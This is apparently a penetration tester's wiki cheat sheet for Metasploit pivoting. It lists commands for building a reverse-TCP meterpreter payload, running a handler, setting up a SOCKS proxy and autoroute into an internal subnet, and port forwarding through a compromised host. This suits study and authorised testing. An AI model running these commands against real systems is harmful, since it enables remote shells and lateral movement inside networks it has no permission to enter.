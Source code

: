 
## Quick Reference

```bash
# Initial setup
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf -o payload
use exploit/multi/handler && set payload && exploit -j

# SOCKS pivoting
use auxiliary/server/socks_proxy
set SRVPORT 9050 && run -j
run autoroute -s 172.16.5.0/23

# Proxychains config
echo "socks4a 127.0.0.1 9050" >> /etc/proxychains.conf

# Port forwarding
portfwd add -l LOCAL_PORT -p REMOTE_PORT -r TARGET_IP
portfwd add -R -l ATTACK_PORT -p PIVOT_PORT -L ATTACK_IP

# Management
autoroute -p                    # View routes
portfwd list                    # View forwards
sessions -l                     # List sessions
jobs -l                         # List jobs
```

---

**See Also:**
- [[Pivoting, Tunneling and Port Forwarding|Main Pivoting Index]]
- [[SSH Socks Tunnel PF|SSH Dynamic SOCKS Tunnel]]
- [[Remote-Reverse Port Forwarding with SSH|SSH Reverse Port Forwarding]]
- [[SOCKS5 Tunneling with Chisel|Chisel SOCKS5 Tunneling]]

**Tags:** #meterpreter #metasploit #autoroute #portfwd #socks-proxy #pivoting #post-exploitation